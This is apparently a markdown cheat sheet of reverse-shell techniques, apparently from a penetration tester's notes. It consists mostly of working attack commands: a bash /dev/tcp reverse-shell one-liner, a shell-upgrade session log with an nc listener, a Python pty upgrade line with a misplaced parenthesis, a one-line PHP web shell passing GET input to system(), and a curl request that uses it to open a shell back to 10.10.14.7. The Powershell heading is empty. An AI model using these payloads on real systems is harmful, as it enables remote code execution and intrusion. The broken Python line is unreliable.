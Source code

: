 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
* **Shell Upgrades**
  ```bash
  root@target:/backend# script /dev/null -c bash
  script /dev/null -c bash            
  Script started, file is /dev/null
  root@target:/backend# ^Z                 
  [1]+  Stopped                 nc -lnvp 1337
  chuxtr@kali$ stty raw -echo; fg
  nc -lnvp 1337
            reset
  reset: unknown terminal type unknown
  Terminal type? screen
  root@target:/backend#
  ```
* ** Python Shell Upgrade
  ```bash
  python -c ('import pty; pty.spawn("/bin/bash")'
  ```
### PHP
Simple PHP WebShell
```bash
<?php system($_GET["Chuxtr"]); ?>
```
Example
```bash
echo '<?php system($_GET["Chuxtr"]); ?>' > Chuxtr.php
```
Usage
```bash
# This example produces a bash shell back to the host (Note the URL encoding)
root@kali# curl 'http://127.0.0.1:52846/Chuxtr.php?chuxtr=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/1337%200%3E%261%27'
```
## Scripts
### Powershell

